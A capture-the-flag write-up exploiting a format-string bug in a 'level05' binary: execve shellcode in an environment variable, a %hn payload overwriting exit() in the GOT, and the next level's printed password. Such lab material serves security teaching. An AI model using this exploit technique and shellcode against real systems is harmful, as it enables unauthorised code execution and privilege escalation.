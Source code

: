 ### Download binary
``scp -P4242 level05@192.168.31.33:/home/users/level05/level05 ~/Bureau/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (refer to source code)

The printf function is used improperly, which enables a format string attack :
``printf(inputBuffer);``

PS : If characters of inputBuffer are an uppercase letter, it attempts to convert it to lowercase.

We gonna use this vulnerability to **overwrite the GOT and replace exit() adress by a shellcode adress**.

----

### The ShellCode

**Our shellcode**
``https: //shell-storm.org/shellcode/files/shellcode-811.html``

First we export our shellcode in an environment variable
``export SHELLCODE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')``

----

### Gathering infos to build the payload

**Find the adress of the shellcode in memory**
``gdb ./level05``
``(gdb) b main``
[...]
``(gdb) r``
[...]
``(gdb) x/200xs environ``
[...]
>0xffffd4d6:	 "SHELLCODE=\220\220\220\220\220\[...]
>0xffffd59e:	 "\220\220\220\220\220\220\220\[...]

We're keeping this 0xffffd59e, to be somewhere inside the NOP slide.

Converted to a number : 4294956446.

**Find exit adress in the GOT :**
``gdb ./level05``
``(gdb) disas exit``
>Dump of assembler code for function exit@plt:
>   0x08048370 <+0>:	jmp    *0x80497e0

The adress is **0x80497e0**.

**Find the printf memory's spot**
``(python -c 'print "AAAA" + ".%x" * 11') | ./level05``
>aaaa.64.f7fcfac0.0.0.0.0.ffffffff.ffffd744.f7fdb000.**61616161**.2e78252e.252e7825

Located in the 10th spot.

----

### Payload
Because 4294956446 characters are too much to print in a reasonnable time, we need to split our target address into two parts: the two most significant bytes (strong bytes) and the two least significant bytes (weak bytes), we gonna use **%hn** printf format to write in a specific 2 bytes memory spot.

**Splitting the adress and convert to number**
ffff = 65535
d59e = 54686

**Payload explanation**
- adress of the 2 strong bytes of exit()
- adress of the 2 weak bytes of exit()
- d59e in decimal - bytes allready written (8)
- 10th spot in memory
- ffff in decimal - bytes allready written (54686)
- 11th spot in memory
--> **080497e0 + 080497e2 + 54678 + %10hn + 10849 + %11hn**

**Our Payload**
``python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%54678d' + '%10\$hn' + '%10849d' + '%11\$hn'"``

----

### Bypassing security

``(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%54678d' + '%10\$hn' + '%10849d' + '%11\$hn'"; cat) | ./level05``

``whoami``
>level06

``cat /home/users/level06/.pass``
>h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
